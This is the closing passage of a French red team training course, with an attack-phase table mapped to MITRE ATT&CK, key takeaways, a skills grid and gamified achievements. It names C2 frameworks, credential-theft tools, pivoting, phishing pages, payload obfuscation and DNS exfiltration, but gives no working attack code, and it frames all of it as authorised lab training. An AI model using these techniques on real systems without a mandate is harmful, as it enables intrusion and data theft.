| C2 | T1071, T1572, T1090 | Sliver, Havoc, Mythic, Cobalt Strike, redirectors | Beacon discret (sleep/jitter) + canal de secours |
| Évasion | T1573, T1071.004, T1090 | HTTPS, DoH, tunnels chiffrés, redirectors | Trafic indétectable |
| Latéralité AD | T1558, T1222, T1543, T1021, T1550 | BloodHound, PowerView, Rubeus, `impacket`, mimikatz | Chemin vers les crown jewels |
| Pivot | T1572, T1090 | chisel, ligolo-ng, `ssh -L/-D`, proxychains | Réseau interne atteignable |
| Exfiltration | T1041, T1048, T1027 | Scripts DNS, dnscat2, steghide, C2 | Canaris sortis + mesure des temps |
| Coordination | — | White cell, debriefing | Détections traduites en règles SIEM |
| Rapport | — | Rapports, captures | Scénarios + mesures + recommandations |
| Nettoyage | — | `schtasks /delete`, `reg delete`, `ip link del` | Accès retirés, preuves archivées |

### Les 7 idées à retenir

1. **Le red team mesure la défense, pas seulement la faille** : temps de détection, résilience, scénarios.
2. **Tout commence par le cadre** : mandat, ROE, scope, crown jewels, canaux — sans eux, pas d'engagement, que du délit.
3. **ATT&CK est la langue commune** : chaque action se référence à une technique pour être actionnable par la défense.
4. **La discrétion est un choix technique** : sleep/jitter, zéro fichier, LOLBins, tunnels chiffrés, canaux de secours.
5. **Le pivot est le cœur de la latéralité** : chisel, ligolo-ng, SSH et proxychains transforment une machine compromise en passerelle.
6. **L'OPSEC est partout** : artefacts, identité, traces, preuves — séparés et maîtrisés.
7. **Le rapport est l'histoire vraie** : scénarios, mesures, recommandations — pour la direction, le SOC et l'IT.

```
MANDAT ─► ACCÈS ─► PAYLOAD ─► PERSISTANCE ─► C2 ─► LATÉRALITÉ ─► EXFIL ─► RAPPORT
(cadre)  (humain) (zéro fichier) (reboot)    (beacon) (pivot AD)  (canaris) (mesures)
```

---

## Progression

### Ce que tu maîtrises maintenant

| Compétence | Maîtrise |
| ---------- | -------- |
| Distinguer red team / pentest / purple team et en tirer la bonne mission | ✅ |
| Préparer un engagement (mandat, ROE, scope, crown jewels, white cell) | ✅ |
| Construire un accès initial réaliste (phishing, page de collecte, exploitation) | ✅ |
| Générer, obfusquer et livrer des payloads (msfvenom, obfuscation, LOLBins, zéro fichier) | ✅ |
| Établir et maintenir un C2 (Sliver/Havoc/Mythic, beacon, sleep/jitter, redirectors) | ✅ |
| Assurer la persistance (schtasks, registre, WMI, services, DLL hijack) | ✅ |
| Pivoter et tunneler (chisel, ligolo-ng, SSH, proxychains) | ✅ |
| Exploiter la latéralité AD avancée (trusts, ACL, GPO, délégations Kerberos) | ✅ |
| Exfiltrer de façon contrôlée (DNS, HTTP, stéganographie, C2, bandes limitées) | ✅ |
| Maîtriser l'OPSEC, coordonner avec la défense, écrire un rapport red team | ✅ |
| Respecter le cadre légal et éthique du métier | ✅ |

### Ce que tu dois apprendre ensuite

Tu maîtrises désormais le **cycle offensif complet**, du mandat au rapport, en passant par l'évasion, le C2 et la latéralité. Le niveau suivant est le **Niveau 11 — Cloud Security ☁️** : les organisations migrent vers le cloud (AWS, Azure, GCP, Kubernetes), et les adversaires aussi. Tu y appliqueras les mêmes réflexes red team à des cibles nouvelles : identités et rôles cloud (IAM), buckets de stockage mal configurés, SSRF vers les métadonnées, containers et Kubernetes, secrets et CI/CD. Le red team du futur est un red team « hybride » : on-premise *et* cloud. C'est exactement le terrain du niveau 11.

---

## Gamification

### XP et récompenses

| Élément | Valeur |
| ------- | ------ |
| **XP pour le cours complet** (quiz ≥ 80 %) | 2 000 XP |
| XP bonus : mini challenge sans indice | +50 XP |
| XP bonus : laboratoire sans correction | +100 XP |
| **Badge obtenu** | 🎭 Fantôme |
| **Niveau débloqué** | Niveau 11 — Cloud Security |
| **Temps** | ~22 h (4 à 5 séances de 4-6 h) |

### Succès débloquables

| Succès | Condition | Récompense |
| ------ | --------- | ---------- |
| 📜 Législateur | Rédiger mandat + ROE fictifs avant le TP1 | 20 XP |
| 🎣 Sire | Construire un e-mail + une page de collecte de phishing en labo | 25 XP |
| 🥷 Zéro fichier | Exécuter un payload uniquement en mémoire sous un AV de labo | 40 XP |
| 🛰️ Pivot | Pivoter vers un réseau interne via chisel ou ligolo-ng | 40 XP |
| 👻 Persistant | Persister via 2 mécanismes et survivre à un reboot de labo | 35 XP |
| 📡 DNS ghost | Exfiltrer un canari par DNS sans pic détectable | 40 XP |
| 🤖 C2 master | Déployer un implant Sliver et piloter une session | 35 XP |
| 🕵️ Zero help | Les 3 mini challenges sans indice | 50 XP |
| 🎭 Fantôme | Valider le cours (quiz ≥ 80 %) | 2 000 XP + badge 🎭 Fantôme |

### Compétences acquises (grille)

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Cadre légal et éthique du red team (mandat, ROE, scope, white cell) | ⭐⭐⭐⭐⭐ |
| Accès initial réaliste (phishing, exploitation, watering hole) | ⭐⭐⭐⭐ |
| Génération et obfuscation de payloads (msfvenom, compréhension des AV/EDR) | ⭐⭐⭐⭐ |
| Évasion hôte et réseau (LOLBins, zéro fichier, HTTPS/DNS/DoH) | ⭐⭐⭐⭐ |
| C2 et infrastructure (Sliver, Havoc, Mythic, redirectors, sleep/jitter) | ⭐⭐⭐⭐ |
| Persistance Windows (schtasks, registre, WMI, services, DLL) | ⭐⭐⭐⭐⭐ |
| Latéralité AD avancée (trusts, ACL, GPO, délégations Kerberos) | ⭐⭐⭐⭐ |
| Tunneling et pivot (chisel, ligolo-ng, SSH, proxychains) | ⭐⭐⭐⭐⭐ |
| Exfiltration discrète (DNS, HTTP, stéganographie, bandes limitées) | ⭐⭐⭐⭐ |
| OPSEC, coordination purple team et rapport red team | ⭐⭐⭐⭐ |

**Rappel du cadre.** Toutes ces compétences s'exercent dans un laboratoire isolé, sur tes machines, ou sur des engagements avec mandat écrit. Le badge 🎭 Fantôme signifie que tu sais **penser et agir comme un adversaire réaliste, discrètement et durablement, dans un cadre strictement légal et éthique** — la condition pour que cette compétence serve à protéger, jamais à nuire.

---

> Ce cours compte **2 732 lignes** et couvre l'intégralité des **16 sections** obligatoires (Présentation → Objectifs → Vue d'ensemble → Théorie → Visualisation → Démonstration → Cas réels → Laboratoires → Mini Challenges → Quiz → Cheat Sheet → Pièges → Conseils → Résumé → Progression → Gamification).
